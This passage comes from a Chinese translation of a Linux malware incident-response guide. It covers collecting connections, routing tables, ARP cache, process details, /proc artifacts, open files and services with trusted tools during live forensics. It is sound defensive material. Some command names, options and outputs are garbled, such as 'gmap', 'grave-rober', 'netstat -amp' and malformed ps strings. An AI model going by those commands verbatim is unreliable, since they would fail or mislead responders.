unix  10 [ ] DGRAM  1595  521/xvfblog    /dev/log
unix  2 [ ACC ] STREAM LISTENING 1714  775/afs  /tmp/.Ent-unix/afsl00
unix  2 [ ACC ] STREAM LISTENING 1683  737/rpm /var/db/rpm
unix  3 [ ] STREAM CONNECTED 6438  1885/ssh
unix  3 [ ] STREAM CONNECTED 6438  1887/ssh
unix  2 [ ] DGRAM  1727  775/afs
unix  3 [ ] DGRAM  1641  746/cond
unix  2 [ ] DGRAM  1581  777/crond@:qesp
unix  2 [ ] DGRAM  1637  712/sendmail: acsmp
unix  2 [ ] DGRAM  1572  694/aimsed
unix  2 [ ] DGRAM  1398  562/rpc.statd
unix  2 [ ] DGRAM  1309  561/rpc.statd
unix 14 [ ] DGRAM  1109  555/ilogd
```

**图 1.31** — 使用 `-anp` 开关对目标系统进行 `netstat` 查询。

-   也可以使用 `ss` 命令列出连接，如 **图 1.32** 所示。

```text
# /media/cdrom/Linux-IR/ss
State Recv-Q Send-Q Local Address:Port Peer Address:Port
ESTAB 0 0 192.168.110.140:47298 192.168.15.6:sah
CLOSE-WAIT 1 0 192.168.110.132:49609 91.189.94.25:www
```

**图 1.32.** — 使用 `ss` 命令显示的 Linux 系统上的连接列表。

## 检查路由表

-   某些恶意软件会修改目标系统上的路由表，以误导或干扰网络流量。此外，数据窃贼可能会在被入侵的主机与远程服务器之间创建专用的 VPN 连接，以便通过无法被网络监控系统观察到的加密隧道传输被盗数据。
-   修改路由表的目的是破坏目标主机和网络上的安全机制，或者通过将其重定向到另一台计算机来监视目标系统的网络流量。
-   例如，如果目标系统配置为从特定服务器自动下载安全更新，修改路由表以将此类请求导向恶意计算机可能会导致恶意软件被下载和安装。¹²
-   因此，使用 `netstat -nr` 命令记录路由表是有用的，如 **图 1.33** 所示。此路由表包含多个与名为 “tun0” 的接口相关的条目，这表明有一个活动的 VPN 连接正在通过远程 VPN 服务器将流量引导至 172.16.13.0 网络。

¹² DNSchanger 恶意软件通过更改计算机的 DNS 服务器设置并将合法的 DNS 服务器条目替换为攻击者运营的流氓 DNS 服务器，导致受感染的计算机使用流氓 DNS 服务器。此外，恶意软件尝试访问运行动态主机配置协议（DHCP）服务器的网络设备（如路由器或网关），并以同样方式将路由表和 DNS 设置更改指向这些恶意的 DNS 服务器 <http://www.pcworld.com/article/258955/dnschanger_malware_whatls_next.html>。

```text
# /media/cdrom/Linux-IR/netstat -nr

    Kernel IP routing table
    Destination    Gateway      Genmask         Flags   MSS Window irtt
    Iface
    0.0.0.0        0.0.0.0      255.255.255.255 UH      0     0       0      tun0
    10.8.0.0       10.8.0.5     255.255.255.0   UG      0     0       0      tun0
    192.168.110.0  0.0.0.0      255.255.255.0   U       0     0       0      eth0
    172.16.13.0    10.8.0.5     255.255.255.0   UG      0     0       0      tun0
    0.0.0.0        192.168.110.2 0.0.0.0        UG      0     0       0      eth0
```

**图 1.33** — 使用 netstat -nr 命令显示的 Linux 系统上的路由表。

## ARP 缓存

-   ARP 缓存保存了计算机之间当前和最近连接的信息。在某些情况下，IP 地址可能不足以确定网络上哪一台特定的物理计算机连接到了被入侵的系统，因此需要使用 ARP 表中存储的硬件地址，如媒体访问控制（MAC）地址。
-   arp 命令显示 Linux 系统上的地址解析协议（ARP）缓存，它提供了本地子网中目标系统最近通信过的系统的 IP 地址及其相关 MAC 地址的列表（图 1.34）。

```text
# /media/cdrom/Linux-IR/arp -a

    Address               HWtype  HWaddress           Flags  Mask
    Iface
    172.16.215.1          ether   00:50:56:C0:00:01   C
    eth0
    172.16.215.131        ether   00:0C:29:0D:BC:B9   C
    eth0
```

**图 1.34** — 使用 arp -a 命令显示的 Linux 系统上的 ARP 缓存。

-   某些恶意软件会修改或“毒化” ARP 缓存中这些 IP—MAC 地址关系，以将所有网络流量重定向到本地网络中另一台捕获该流量的计算机。Cain and Abel、[13] Ettercap、[14] 以及 DSNiff 的 Arpspoof [15] 实现了这种技术，该技术用于不允许混杂模式嗅探的交换网络中。


## 收集进程信息

- 收集与目标系统上正在运行的进程相关的信息，对于恶意代码的实时响应取证至关重要。一旦执行，恶意软件样本——如蠕虫、病毒、机器人、键盘记录器和特洛伊木马——通常会在目标系统上以进程的形式表现出来。

- 在实时响应过程中，收集与每个运行进程相关的特定信息，以获取进程上下文，即对该进程及其与系统状态和从系统收集的其他工件之间关系的全方位了解。为了获得最广泛的视角，许多工具会收集与目标系统上运行进程相关的有价值细节。虽然本书涵盖了其中的一些工具，但请参阅本书末尾的“工具箱”部分以及随书网站 [http://www.malwarefieldguide.com/LinuxChapter1.html](http://www.malwarefieldguide.com/LinuxChapter1.html) 以获取其他工具选项。

- 在 Linux 系统上区分恶意软件和合法进程需要对运行中的进程进行系统性的审查。在某些情况下，恶意进程会表现出立即引发警示的特征，例如与互联网中继聊天（IRC）服务器建立的已连接网络，或者可执行文件存储在隐藏目录中。表明进程具有恶意的更细微的线索包括该进程打开的文件、从一个未授权拥有 root 访问权限的用户账户启动且以 root 身份运行的进程，以及该进程消耗的系统资源数量。

首先通过收集基本的进程信息，如进程名称和进程标识符（PID），并通过后续查询获取以下详细信息：

- 进程名称和 PID
- 时间上下文
- 内存使用情况
- 进程到可执行程序的映射
- 进程到用户的映射
- 子进程
- 调用的库和依赖项
- 用于调用进程的命令行参数
- 进程的内存内容
- 与系统状态和工件的关系上下文

## 进程名称和进程标识符

获取进程上下文的第一步是识别正在运行的进程，通常是通过名称和相关的 PID。

要从目标系统中收集简单的运行进程列表和分配的 PID，请使用 `ps -e` 命令。

`ps` 是一个原生于大多数 Linux 发行版的多功能进程查看器实用工具。由 `ps` 提供的灵活性和命令选项可以收集广泛或精细范围的进程数据。

### 时间上下文

为了获取有关进程的历史背景，请确定该进程已经运行的时间段。

- 通过使用 `ps -ef` 或 `ps aux` 命令获取进程活动时间。
- 这些命令显示的细节包括但不限于：
  - 运行中进程的名称
  - 相关的 PID
  - 每个进程在系统上已运行的时间量。

### 内存使用情况

检查进程消耗的系统资源量。通常，蠕虫、机器人和其他以网络为中心的恶意软件样本是“活跃”的，并且可能会显著消耗资源，特别是在具有少于 2 GB 内存的系统上。

`top` 命令显示哪些进程正在使用最多的系统资源。由于 `top` 命令不断实时更新并显示系统状态（如果简单地管道传输到文件，其标准输出是二进制的），将内容捕获到文本文件以便进行有意义的分析可能具有挑战性。为了实现这一点，请使用带有 `-n 1 -b` 标志的 `top`，如**图 1.35**所示。

```
# /media/cdrom/Linux-IR/top -n 1 -b > /media/IR/processes/top-out.txt
# /media/cdrom/Linux-IR/cat /media/IR/processes/top-out.txt
top - 17:53:27 up 28 min,  2 users,  load average: 1.61, 1.26, 1.21
Tasks: 152 total,  1 running, 151 sleeping,   0 stopped,   0 zombie
Cpu(s):  9.3us,  6.5sy,  0.0ni, 80.8id,  2.8wa,  0.0hi,  0.6si,  0.0st
Mem:  1025712k total,  600280k used,  425432k free,  43016k buffers
Swap:  816476k total,     0k used,  816476k free,  295672k cached

  PID USER     PR  NI VIRT   RES  SHR S  CPU   MEM   TIME+ COMMAND
 2468 jeff     20   0 173m   70m 17m S 22.6   7.1   0:34:04 dex
 2448 jeff     20   0 333m  82m 27m S  3.4   8.2   0:38:52 firefox-bin
 1333 root     20   0 54520 23m 434k S  1.9   2.5   0:58.30 Xorg
   1 root     20   0 2494 1712 1224 R  0.0   0.2   0:01.45 init
   2 root     20   0   0    0    0 S  0.0   0.0   0:00.00 kthread
   3 root     20   0   0    0    0 S  0.0   0.0   0:00.00 ksoftirqd/0
   4 root     RT   0   0    0    0 S  0.0   0.0   0:00.00 migration/0
   5 root     RT   0   0    0    0 S  0.0   0.0   0:00.00 watchdog/0
<excerpted for brevity>
```

**图 1.35**——使用 top 命令根据资源消耗对进程进行排序。

要获取识别运行进程、相关 PID 以及进程各自的内存使用率和 CPU 消耗量的额外输出，请使用 `ps aux` 命令。

`pidstat` 实用工具可用于获取运行进程的详细系统使用情况信息。例如，图 1.36 显示了在特定时刻每个运行进程的 CPU 利用率。在此示例中，键盘记录器（`logkeys`）、`ssh` 和 `openvpn` 进程在系统上相对活跃。名为 `iripd` 的后门在此时并不活跃，这表明在特定时刻缺乏系统使用并不一定意味着该进程不值得进一步检查。

```
# media/cdrom/Linux-IR/pidstat
05:33:29 PM  PID   %usr  %system  %guest   %CPU  CPU  Command
<excerpted for brevity>
05:32:37 PM  5316  0.00    0.02     0.00    1.02   0  openvpn
05:32:37 PM  6282  0.00    0.00     0.00    0.00   0  iripd
05:32:37 PM  6290  0.04    0.27     0.00    0.21   0  logkeys
05:32:37 PM  6334  0.00    0.05     0.00    0.05   0  scp
05:32:37 PM  6335  0.07    1.37     0.00    1.24   0  ssh
05:32:37 PM  6350  0.00    0.00     0.00    0.00   0  pidstat
```

**图 1.36**——使用 pidstat 命令查看运行进程的 CPU 消耗情况。

`pidstat` 实用工具有选项可报告页面错误（-r）、堆栈使用情况（-s）以及 I/O 统计信息（-d），包括进程每秒写入和读取的字节数。这些信息可能有助于识别正在记录按键或向受损系统传输大量数据的进程。

要收集特定目标进程的资源消耗详细信息，请使用 `-p <目标 pid>` 命令选项。

## 进程到可执行程序的映射：可执行文件的完整系统路径

确定与相应进程相关的可执行映像驻留在系统的何处。这项工作将揭示是未知或可疑程序生成了该进程，还是相关程序嵌入在系统的异常位置，从而需要对程序进行更深入的调查。

- 一旦识别出目标进程，可以使用 `whereis` 和 `which` 命令发现相关可执行程序的位置。
- `whereis` 命令定位目标程序的源/二进制文件和手册条目；要仅查询二进制文件，请使用 `-b` 开关。类似地，`which` 命令显示当前环境中被查询程序（或链接）的完整系统路径；不需要命令行开关。`which -a` 命令显示 PATH 中所有匹配的可执行文件，而不仅仅是第一个。
- 例如，假设在数字取证人员对目标系统上运行进程的初步分析过程中，发现了一个名为 `logkeys`（一个 GNU/Linux 键盘记录程序）^16^ 的流氓进程。使用可信版本的 `whereis` 和 `which` 实用工具可以揭示相关可疑可执行文件的系统路径，如图 1.37 所示。

```
# /media/cdrom/Linux-IR/whereis -b logkeys
logkeys: /usr/local/bin/logkeys

# /media/cdrom/Linux-IR/which -a logkeys
/usr/local/bin/logkeys
```

**图 1.37**——使用 whereis 和 which 命令定位可疑二进制文件。

### 调查考量

- 由于 `whereis` 和 `which` 命令不依赖于正在执行的活动程序，即使目标进程停止运行，或被攻击者无意中甚至故意杀死以试图阻碍检测和调查，它们也对于定位可疑可执行文件的系统路径非常有用。
- 请注意，`which` 命令仅在 `PATH` 环境变量中的位置进行搜索。因此，攻击者可能会修改 `PATH` 环境变量，以便在使用 `which` 命令进行搜索时省略某些目录。
- 识别与目标进程相关的可执行文件的系统路径的另一种方法是检查相应 PID 的 `/proc` 文件系统内容，位于 `/proc/<PID>/cwd`（'cwd' 符号链接指向目标进程的当前工作目录）和 `/proc/<PID>/exe`（exe 符号链接指向完整路径可执行文件）。从 `/proc` 收集易失性数据将在本书后续部分详细讨论。

## 进程到用户的映射

- 在识别启动进程的可执行程序过程中，确定进程的所有者，以获取与进程相关的用户和安全上下文。与运行进程相关联的异常系统用户或提升的用户权限通常是流氓进程的指示。
- 使用带有 `aux` 开关的 `ps`，识别运行进程的程序名称、PID、内存使用情况、程序状态、命令行参数和相关的用户名。


## 调查注意事项

- 通过查询与特定目标用户（包括真实用户 ID 和有效用户 ID）相关的所有进程，获取该目标用户的详细上下文信息。使用以下命令进行查询：

```
$ps -u <username> -u <username>$
```

- 同样，由于 root 访问权限和特权赋予攻击者利用目标系统的能力最强，务必查询以 root 用户身份运行的进程：

```
$ps -U root -u root -U$
```

- 另一种用于获取可疑进程所有者更深入上下文信息的命令字符串如下：

```
$ps -eo pid,user,group,args,etime,istart | grep '<suspect pid>'$
```

## 子进程

- 通常，恶意软件在执行时会派生出额外的进程，即子进程。在实时响应过程中，一旦识别出潜在的敌对进程，请以能够识别潜在父进程和子进程层级结构的方式分析正在运行的进程。
- 使用 ps 和/或 ps tree 实用程序查询目标系统，以获取进程的“树”状结构化层级视图。与 ps 类似，pstree 是大多数 Linux 发行版自带的实用程序，为数字取证人员提供了强大的文本图形进程树。下表提供了实现不同级别进程树细节的命令选项。

| 工具 | 命令 | 详情 |
|---|---|---|
| ps | ps -eH | 显示进程 ID (PID)、进程组 ID (PGID)、会话 ID (SID)、控制终端 (TTY)、相应进程的运行时间 (TIME) 以及关联的命令行参数 (CMD)。 |
| | ps axjf | 显示 PPID (父进程 ID)、PID、PGID、SID、TTY、与控制 TTY 进程组 ID 关联的进程组 ID (TPGID)、进程状态 (STAT)、用户 ID (UID)、TIME 以及命令行参数 (COMMAND)。 |
| | ps aux -forest | 显示用户 ID (USER)、PID、CPU 使用率 (%CPU) 内存使用率 (%MEM)、虚拟集大小 (VSZ)、驻留集大小 (RSS)、TTY、进程状态 (STAT)、进程启动时间/日期 (START)、TIME 以及 COMMAND。 |
| pstree | pstree -a | 显示命令行参数。 |
| | pstree -al | 使用长行（非截断）显示命令行参数。 |
| | pstree -ah | 显示命令行参数，并突出显示每个当前进程及其祖先进程。 |

## 调查注意事项

- 识别与目标进程关联的命令行参数的另一种方法是检查 `/proc` 文件系统中相应 PID 的内容，即 `/proc/<PID>/cmdline`。从 `/proc` 中收集易失性数据将在后文中详细讨论。

## 调用的库：运行进程加载的依赖项

- 动态链接的可执行程序依赖于共享库才能成功运行。在 Linux 程序中，这些依赖项通常是共享对象库，它们在执行期间从宿主操作系统导入。识别和理解可疑进程调用的库，有可能定义该进程的性质和用途。

- 查看运行进程已加载库的一个强大实用程序是 `gmap`（大多数 Linux 发行版自带），它不仅识别进程调用的模块，还显示相应库加载的内存偏移量。例如，如图 1.38 所示，`gmap` 识别了 `logkeys`（一个正在目标系统上隐蔽运行的键记录器）所调用的库。

## 命令行参数

- 在检查系统中的运行进程时，确定（如果有）用于启动这些运行进程的命令行指令。识别命令行参数在已经识别出流氓进程或需要更多关于程序如何运行的信息时特别有用。

- 与目标进程关联的命令行参数可以通过使用多个不同命令查询目标系统来收集，包括 `ps -eawwx` 和 `ps -auxww`。

- `ww` 开关确保输出宽度无限制，从而捕获长的命令行参数。

## 在活动的 Linux 系统上保留进程内存

> *在定位并记录潜在的敌对可执行程序后，捕获特定进程的个人进程内存内容，以供后续分析。*

- 除了获取目标 Linux 系统的完整内存映像外，还应收集与可疑进程关联的进程内存内容，这将大大减少需要解析的数据量。此外，调查人员可能能够实施额外的工具来检查进程内存，例如 strings，这些工具可能不适用于完整内存内容分析。

- 通常，只有在完成完整的物理内存转储后，才应收集进程内存。许多用于评估运行进程状态并反过来转储可疑进程内存的工具会影响物理内存。
- 在 Linux 中，可以使用多种不同的实用程序在不中断进程的情况下捕获单个运行进程的内存内容，这些实用程序在《Linux 系统恶意软件取证现场指南》的第 2 章中进行了更详细的考察。

- 在本文中，重点将放在 pcat 上，这是一个常用的事件响应实用程序，可用在 The Coroner’s Toolkit 中。17 pcat 为数字取证人员提供了多种获取选项（图 1.39）。

```
# pcat [-h [keep holes]] [-m mapfile] [-v] process_id
```

**图 1.39** — 使用 pcat 命令获取单个进程（由 PID 指定）内存的命令行用法。

- **图 1.40** 演示了如何使用受信任版本的 pcat 针对被 Törknit 破坏的目标系统进行操作，以捕获有关恶意软件生成的后门 SSH 服务器的信息。

```
# /media/cdrom/Linux-IR/pcat -v 165 >
/media/evidence/xntps.pcat
map entry: 0x8048000 0x8076000
map entry: 0x8076000 0x8079000
map entry: 0x8079000 0x8082000
map entry: 0x40000000 0x40016000
map entry: 0x40016000 0x40017000
map entry: 0x40017000 0x40018000
map entry: 0x4001e000 0x40022000
map entry: 0x4002f000 0x40031000
map entry: 0x40031000 0x40033000
map entry: 0x40033000 0x40038000
map entry: 0x40038000 0x40039000
map entry: 0x40039000 0x40060000
map entry: 0x40060000 0x40062000
map entry: 0x40062000 0x40063000
map entry: 0x40063000 0x4017e000
map entry: 0x4017e000 0x40184000
map entry: 0x40184000 0x40188000
map entry: 0xbfff c000 0xc0000000
read seek to 0x8048000
read seek to 0x8049000
<cut for brevity>
read seek to 0xbfff d000
read seek to 0xbfff e000
read seek to 0xbfff f000
cleanup
/media/cdrom/Linux-IR/pcat = pre_detach_signal = 0
/media/cdrom/Linux-IR/pcat : post_detach_signal = 0
```

**图 1.40** — 使用 pcat 命令获取特定进程内存内容的过程。

17 有关 The Coroner’s Toolkit 的更多信息，请访问 <http://www.porcupine.org/forensic/act.html>。


- 由于 `pcat` 保留进程内存，它显示正在复制的每个内存区域的位置，并显示非连续区域之间的间隙。默认情况下，`pcat` 不保留捕获的进程内存中的这些间隙，而是将所有区域合并到一个文件中，就好像它们是连续的。

## 调查考量

- 在事件响应过程中，可以使用 `grave-rober` 工具自动化进程内存的收集。¹⁸ 在 Coroner’s Toolkit (TCT) 中。
- 特别是，`grave-rober` 自动化易失性数据的保存，并且可以配置为收集各种文件，对所有保存的数据进行消息摘要以记录其完整性。但是，必须从受感染的系统挂载包含 TCT 的独立驱动器或计算机。
- 可以指示此工具使用 `pcat` 收集所有正在运行的进程的内存，使用以下命令（图 1.41）：



**图 1.41** — 使用 `grave-rober` 工具获取所有正在运行的进程的内容。

- 在上述命令中添加 `-p` 选项还可以保留 `ps` 和 `lsof` 的输出，以捕获有关正在运行的进程的额外信息，并复制相关的可执行文件。
- 请记住，`pcat` 与任何在实时系统上运行的工具一样，可能会受到其他进程的阻碍，并可能被恶意代码破坏，如 Mariusz Burdach 在其 2005 年白皮书《物理内存的数字取证》中所示。¹⁹

## 在系统状态和工件的关系背景下检查正在运行的进程

> ☑ 应在实时系统数字犯罪现场的总体环境中检查进程活动。

- 为了对可疑进程获得整体视角，务必检查它与整个系统状态和从系统收集的其他工件之间的关系。
- 其他易失性数据工件，如打开的文件和网络套接字，可能会更清楚地说明进程的性质和目的。

18 有关 grave-rober 的更多信息，请访问 <http://manpages.ubuntu.com/manpages/natty/man1/grave-rober.1.html>。
19 <http://forensic.secure.net/pdf/murdach_digital_forensics_of_physical_memory.pdf>。

- 网络工件可能揭示有关攻击者侦察、攻击向量和在执行过程之前有效载荷轨迹的信息。
- 由于进程执行或在执行之前的攻击事件序列而在硬盘上留下的数字印象和痕迹证据，可能为重建数字犯罪现场提供见解。

# /proc 目录中的易失性数据

> *从 /proc 目录中收集易失性数据，以证实现有证据并发现额外证据。*

- Linux 系统以及其他现代版本的 UNIX 都有一个 “/proc” 目录，其中包含一个虚拟文件系统，其中的文件代表内核的当前状态，包括有关每个活动进程的信息，如命令行参数和内存内容。
    - /proc 目录是层次化的，包含与系统上每个正在运行的进程对应的枚举子目录。
    - 该目录内有许多感兴趣的条目，可以检查以获取关于可疑进程的额外线索：
        - “/proc/<PID>/cmdline” 条目包含用于调用进程的完整命令行参数。
        - “/proc/<PID>/cwd” 是指向正在运行的进程当前工作目录的符号链接。
        - “/proc/<PID>/environ” 包含进程的系统环境。
        - “/proc/<PID>/exe” 文件是与会话进程关联的可执行文件的符号链接。这对数字调查员特别感兴趣，因为可以复制可执行映像以进行后期分析。
- 这些以及分析恶意进程范围内更适用的 /proc 目录中的某些条目包括图 1.42 中显示的那些。
- 为了阐明感兴趣的工件如何在 /proc 目录中表现，图 1.43 显示了 /proc 条目在受 Adore rootkit 感染的目标系统上的表现，表现为在异常系统位置 /dev/ttyes 中名为 “swapsd” 的隐藏进程。
- 虽然 /proc 目录中的某些文件似乎大小为 0 字节，但它们实际上作为包含数据的结构的引用起作用。

20 数字犯罪学家，包括印象证据、痕迹证据和轨迹，在《Linux 系统恶意软件取证现场指南》第 6 章中进行了更详细的讨论。 21 有关 Adore rootkit 的更多信息，请访问 <http://packetstormsecurity.org/files/32843/ adore-ng-0.41-tgz.html>。



**图 1.42** — /proc/<pid> 子目录中的关注项。

```text
# /media/cdrom/Linux-IR/ls -alt /proc/5723
total 0
dr-xr-xr-x    3 root     root      0 2008-02-20 18:06 .
-lr-xr-xr-x    1 root     root      0 2008-02-20 18:06 cmdline
lrwxrwxrwx    1 root     root      0 2008-02-20 18:06 cwd ->
/dev/ttyec/swap
-r--------    1 root     root      0 2008-02-20 18:06 environ
lrwxrwxrwx    1 root     root      0 2008-02-20 18:06 exe ->
dr-x------    2 root     root      0 2008-02-20 18:06 fd
-r--r--r-x    1 root     root      0 2008-02-20 18:06 maps
-rw-------    1 root     root      0 2008-02-20 18:06 mem
-r--r--r-x    1 root     root      0 2008-02-20 18:06 mounts
lrwxrwxrwx    1 root     root    -> /
-r-xr-xr-x    1 root     root      0 2008-02-20 18:06 stat
-r--r-xr-x    1 root     root      0 2008-02-20 18:06 statm
-r--r-xr-x    1 root     root      0 2008-02-20 18:06 status
dr-xr-xr-x   55 root     root      0 2008-02-20 11:20 ..
```

**图 1.43** — 可疑进程 PID 5723 的 /proc 目录文件列表。

- “mem” 文件引用每个进程的内存内容，但该文件对系统用户不可直接访问。需要特别开发的工具来保存进程内存，如本书“在实时 Linux 系统上保存进程内存”部分及《Linux 系统恶意软件取证现场指南》第 2 章中更详细讨论的那样。

# 分析提示
抓住或失去它

/proc 系统是可变化数据的虚拟表示，其本身也是易失性的。创建目标系统的取证副本不会捕获由 /proc 系统引用的易失性数据。因此，捕获此数据的最有效方法是将其从实时系统复制到外部存储。

# 将开放端口与正在运行的进程和程序进行关联

> 除了识别目标系统上的开放端口和正在运行的进程外，还要确定启动可疑建立连接或监听端口的可执行程序，并确定该程序在系统上的位置。

- 将开放端口与活动的网络连接分开检查通常与在目标系统上检查正在运行的进程时发现的内容密不可分。
    - 在检查目标系统上的活动端口时，如果可用，收集以下信息：
        - 本地 IP 地址和端口
        - 远程 IP 地址和端口
        - 远程主机名
        - 协议
        - 连接状态
        - 进程名称和 PID
        - 与进程关联的可执行程序
        - 可执行程序路径
        - 与进程/程序关联的用户名
    - 可以通过查询目标系统，结合 netstat、lsof 和 fuser 命令来进行进程到端口的关联。例如，考虑一个观察到与 UDP 端口 60556 关联有异常活动的系统，并且需要确定这是由于系统中的恶意软件所致。
    - **图 1.44** 显示了使用 fuser 命令来确定一个 PID 为 15096（在 “victim” 用户帐户下运行）的进程绑定到 UDP 端口 60556。**图 1.45** 还显示了使用 netstat -anp 命令绑定到 UDP 端口 60556 和 37611 的进程 “http” 的名称。

```text
# /media/cdrom/Linux-IR/fuser -u 60556/udp
60556/udp:            15096(victim)
```

**图 1.44** 使用 fuser -u 命令确定正在监听特定端口的进程（及关联用户）。


## 1 Linux 恶意软件应急响应

```
# /media/cdrom/Linux-IR/netstat -amp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State
tcp 0 0 127.0.0.1:631 0.0.0.0:* LISTEN
tcp6 0 0 :::631 :::* LISTEN
udp 0 0 0.0.0.0:5353 0.0.0.0:*
udp/6 0 0 [ava]:h:5353 0.0.0.0:*
udp 0 0 192.168.79.157: 137:1561 192.168.79.153 ESTABLISHED
159%6/httpd 0 0.0.0.0:33285 0.0.0.0:*
780/avahi-daemon: 0 0.0.0.0:188 0.0.0.0:*
udp 0 0 0.0.0.0:60556 0.0.0.0:*
159%6/httpd
udp6 0 0 :::5353 :::*
```



最终，可以使用 `lsof` 命令找到与该可疑进程相关联的可执行文件，如图 1.46 所示。该输出表明，名为 **httpd** 的恶意软件正在 `/tmp/me` 目录下运行。

```
# /media/cdrom/Linux-IR/lsof -p 15096
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE
NAME
httpd 15096 victim cwd DIR 8,1 4096 532703 /tmp/me
httpd 15096 victim rtd DIR 8,1 4096 2 /
httpd 15096 victim txt REG 8,1 612470 532708 /tmp/me/httpd
httpd 15096 victim mem REG 8,1 1421892 393270 /lib/libc-2.12.1.so
httpd 15096 victim mem REG 8,1 71432 393382 /lib/libresolv-2.12.1.so
httpd 15096 victim mem REG 8,1 9620 393342 /lib/libnss_mdns_minimal.so.2
httpd 15096 victim mem REG 8,1 42572 393336 /lib/libnss_files-2.12.1.so
httpd 15096 victim mem REG 8,1 118084 393446 /lib/ld-2.12.1.so
httpd 15096 victim mem REG 8,1 9624 393341 /lib/libnss_mdns4.so.2
httpd 15096 victim mem REG 8,1 22036 393334 /lib/libnss_dns-2.12.1.so
httpd 15096 victim 0u IPv4 46647 0t0 UDP uhuntu.local:54121->192.168.79.1:domain
httpd 15096 victim 3u IPv6 45513 0t0 UDP *:60556
```


- 除了提供开放端口的信息外，`fuser` 命令还可以显示哪些进程正在访问特定的文件或目录。**图 1.47** 列出了所有访问 “/tmp/me” 目录的进程，表明它们具有可疑性，需要进一步检查。

```
# /media/cdrom/Linux-IR/fuser -u /tmp/me
/tmp/me: 500e(victim) 5365c(victim)
```


### 调查注意事项

- 某些根套件（rootkit）并不监听特定端口，而是监控连接到受感染系统上已运行的任何合法服务的连接，并等待特定的网络连接模式，例如特定的源端口或按顺序访问多个端口（又称端口敲入，port knocking）。当观察到预期的模式时，根套件会激活后门访问。通过这种方式，此类根套件使得难以区分未经授权的后门活动与受感染计算机上合法服务之间的连接。

## 开放文件和依赖项

- **确定特定进程打开的文件可以为数字取证调查员提供额外的证据来源。**

- 许多恶意软件样本，特别是键盘记录器、tty 嗅探器、特洛伊木马以及其他数据收集程序，会在受检系统的秘密文件中隐蔽地收集窃取的用户数据（如按键记录、用户凭据和其他敏感信息）。

- `lsof` 命令揭示了每个运行程序所访问的文件和套接字，以及与每个进程关联的用户名。

- 嗅探器和键盘记录器通常将捕获的数据保存到日志文件中，而 `lsof` 命令可能揭示该日志存储在磁盘上的位置。

- 例如，在 **图 1.48** 中，检查被 Adore 根套件感染的主系统上的打开文件时，可疑的 “swrapd” 进程的 `lsof` 输出包含对 “/dev/ttyvcel/log” 的引用——这应该被检查是否存在日志文件。

- 此外，**图 1.48** 的输出显示 “swrapd” 进程有一个打开的终端（`pts/8`），这通常与网络连接相关联，但似乎没有端口与该进程关联。这一差异是进一步表明信息正被根套件从操作系统中隐藏的迹象。

```
COMMAND PID USER FD TYPE DEVICE SIZE NODE NAME
swapd 5723 root cwd DIR 8,5 1024 47005 /dev/typerc/log
swapd 5723 root rtd DIR 8,5 1024 2 /
swapd 5723 root txt REG 8,5 15788 47033 /dev/typerc/swapd
swapd 5723 root mem REG 8,5 87341 65282 /lib/ld-2.2.93.so
swapd 5723 root mem REG 8,5 42657 65315 /lib/libnss_files-2.2.93.so
swapd 5723 root mem REG 8,5 1395734 75482 /lib/i686/libc-2.2.93.so
swapd 5723 root 0u sock 0,0 11590 can't identify protocol
swapd 5723 root 1u sock 0,0 11590 can't identify protocol
swapd 5723 root 2u sock 0,0 11590 can't identify protocol
swapd 5723 root 3u sock 0,0 10924 can't identify protocol
swapd 5787 root cwd DIR 8,5 1024 47004 /dev/typerc
swapd 5787 root rtd DIR 8,5 1024 2 /
swapd 5787 root txt REG 8,5 15788 47033 /dev/typerc/swapd
swapd 5787 root mem REG 8,5 87341 65282 /lib/ld-2.2.93.so
swapd 5787 root mem REG 8,5 42657 65315 /lib/libnss_files-2.2.93.so
swapd 5787 root mem REG 8,5 1395734 75482 /lib/i686/libc-2.2.93.so
swapd 5787 root 0u CHR 136,8 10 /dev/pts/8
swapd 5787 root 1u CHR 136,8 10 /dev/pts/8
swapd 5787 root 2u CHR 136,8 10 /dev/pts/8
swapd 5787 root 3u sock 0,0 10924 can't identify protocol
```

**图 1.48** — 使用 *lsof* 命令显示的 *swapd* 进程（Adore 根套件）正在使用的文件和套接字。

- *lsof* 的输出还显示了进程打开的端口和终端。使用 *lsof -i -n -P* 选项可以提供仅包含开放端口及其关联进程和网络连接的列表。

### 调查注意事项

- 与任何用于收集易失性数据的命令一样，*lsof* 可能会受到 LKM 根套件的干扰。因此，重要的是将易失性数据收集的结果与从受检系统的内存转储进行取证分析所得到的相应结果进行比较，以确定哪些条目在实时数据收集期间是不可见的。内存取证在《Linux 系统恶意软件取证现场指南》第 2 章中有详细阐述。

## 识别运行中的服务

许多恶意软件样本会以服务的形式出现在受检系统上。

- 在 Linux 系统中，服务是在其自身会话中运行的长期运行可执行应用程序；它们不需要用户启动或交互。可以配置服务在计算机启动时自动启动，暂停并重启，而不会在任何用户界面中显示。恶意软件可以以服务的形式出现在受害系统上，在后台静默运行，而用户对此一无所知。

- 与检查运行进程和端口一样，通过首先获取概览，然后应用工具提取有关服务的具体信息，来探索运行中的服务。

- 在调查运行中的服务时，收集以下信息：
  - 服务名称
  - 显示名称
  - 状态
  - 启动配置
  - 服务描述
  - 依赖项
  - 与服务关联的可执行程序
  - 进程 ID
  - 可执行程序路径
  - 与服务关联的用户名

- 通过查询可信版本的 chkconfig 并使用 -a（所有服务）和 -l（列出）开关，可以很好地概述受检系统上运行的服务。chkconfig 是大多数 Linux 发行版原生的实用工具，用于配置服务。

- 为了进一步识别运行中的服务，使用 service 命令查询受检系统，并使用 grep 筛选运行中服务（由“+”符号表示）^{22}（图 1.49）。

```
# media/cdrom/Linux-IR/service --status-all | grep +
```

图 1.49 — 使用 service 命令查询运行中的服务。

> 22 service 命令是大多数 Linux 系统原生的，位于 /usr/sbin/ 目录中；与所有实时响应实用工具一样，在从受检系统收集数据时，应使用 service 的可信静态编译版本。

## 检查已加载的模块

- *恶意软件可以作为内核模块加载到受感染系统中。*

- Linux 具有模块化设计，允许开发者通过编写模块（有时也称为驱动程序）来扩展操作系统的核心功能，这些模块在需要时加载。

- 恶意软件可以利用某些 Linux 系统中的这一能力来隐藏信息并执行其他功能。

